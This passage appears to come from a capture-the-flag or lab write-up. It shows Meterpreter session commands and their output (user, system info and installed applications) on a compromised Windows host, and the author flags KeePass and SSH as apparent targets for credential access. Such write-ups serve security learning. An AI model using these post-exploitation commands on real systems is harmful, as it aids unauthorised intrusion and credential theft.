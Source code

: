 ```
         `-'`-'|___\ `"/  \  ) /  \ (_,_) /  \  `-'    /\    `-'  |           
          |        \'. \_/``".'    \     /    \       /  \       /            
          `--------`  '-----'       `---`      `'-..-'    `-...-'             
                ,---------. .---.  .---.     .-''-.                           
                \          \|   |  |_ _|   .'_ _   \                          
                 `--.  ,---'|   |  ( ' )  / ( ` )   '                         
                    |   \   |   '-(_{;}_). (_ o _)  |                         
                    :_ _:   |      (_,_) |  (_,_)___|                         
                    (_I_)   | _ _--.   | '  \   .---.                         
                   (_(=)_)  |( ' ) |   |  \  `-'    /                         
                    (_I_)   (_{;}_)|   |   \       /                          
                    '---'   '(_,_) '---'    `'-..-'                           
                             .---.  .---.    ____       .-'''-. .---.  .---.  
      .-,                    |   |  |_ _|  .'  __ `.   / _     \|   |  |_ _|  
   ,-.|  \ _                 |   |  ( ' ) /   '  \  \ (`' )/`--'|   |  ( ' )  
   \  '_ /  |                |   '-(_{;}_)|___|  /  |(_ o _).   |   '-(_{;}_) 
   _`,/ \ _/                 |      (_,_)    _.-`   | (_,_). '. |      (_,_)  
  (  '\_/ \                  | _ _--.   | .'   _    |.---.  \  :| _ _--.   |  
   `"/  \  )                 |( ' ) |   | |  _( )_  |\    `-'  ||( ' ) |   |  
     \_/``"                  (_{;}_)|   | \ (_ o _) / \       / (_{;}_)|   |  
                             '(_,_) '---'  '.(_,_).'   `-...-'  '(_,_) '---'  
```

Doing some enumeration next...

System info:

```
meterpreter > getuid
Server username: PIEDPIPER\Nelson

meterpreter > sysinfo
Computer        : PIEDPIPER
OS              : Windows 2008 (Build 6002, Service Pack 2).
Architecture    : x86
System Language : en_GB
Domain          : DEVELOPMENT
Logged On Users : 5
Meterpreter     : x86/windows
```

Installed programs:

Notice SSH is installed, 7-Zip and Keepass.

```
meterpreter > run post/windows/gather/enum_applications 

[*] Enumerating applications installed on PIEDPIPER

Installed Applications
======================

 Name                                                              Version
 ----                                                              -------
 7-Zip 18.05                                                       18.05
 Bitnami TestLink Module                                           1.9.17-0
 Bitvise SSH Server 7.44 (remove only)                             7.44
 Hotfix for Microsoft .NET Framework 3.5 SP1 (KB953595)            1
 Hotfix for Microsoft .NET Framework 3.5 SP1 (KB958484)            1
 KeePass Password Safe 2.40                                        2.40
 Microsoft .NET Framework 3.5 SP1                                  3.5.30729
 Microsoft .NET Framework 4.5.2                                    4.5.51209
 Microsoft .NET Framework 4.5.2                                    4.5.51209
 Microsoft Visual C++ 2008 Redistributable - x86 9.0.21022         9.0.21022
 Microsoft Visual C++ 2008 Redistributable - x86 9.0.30729.6161    9.0.30729.6161
```